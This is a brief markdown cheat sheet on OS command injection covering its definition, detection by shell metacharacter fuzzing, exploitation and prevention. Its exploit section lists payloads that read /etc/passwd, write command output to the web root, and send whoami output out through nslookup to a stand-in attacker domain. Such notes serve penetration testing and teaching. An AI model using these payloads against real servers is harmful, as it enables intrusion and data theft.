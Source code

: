 # OS Command Injection

</br>

## Definition
- It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

</br>

---

## How To Find
- Identify all instances where the web application appears to be interacting with the underlying operating system.
- Fuzz the application using shell metacharacters such as: `&` `&&` `|` `||` `;` `\n` `` ` `` `$()`.
- For in-band command injection, analyze the response of the application to determine if it’s vulnerable.
- For blind command injection, you can:
    - Trigger a time delay using the `ping -c 10 127.0.0.1` or `sleep 10` command.
    - Output the response of the command in the web root and retrieve the file directly using a browser. 
    - Open an out-of-band channel back to a server you control.

<br/>

---
## How To Exploit
- Concatenate another command.
    - Example: `& cat /etc/passwd &`
- Trigger a time delay.
    - Example: `& sleep 10 &`
- Output the response of the command in the web root and retrieve the file directly using a browser.
    - Example: `& whoami > /var/www/static/whoami.txt &`
- Open an out-of-band channel back to a server you control.
    - Example: ``nslookup 'whoami` .kgji2ohoyw.web-attacker.com`` 
</br>

---
## How To Prevent
- Avoid system calls and user input.
- Set up input validation.
- Create a white list—of possible inputs, to ensure the system accepts only pre-approved inputs.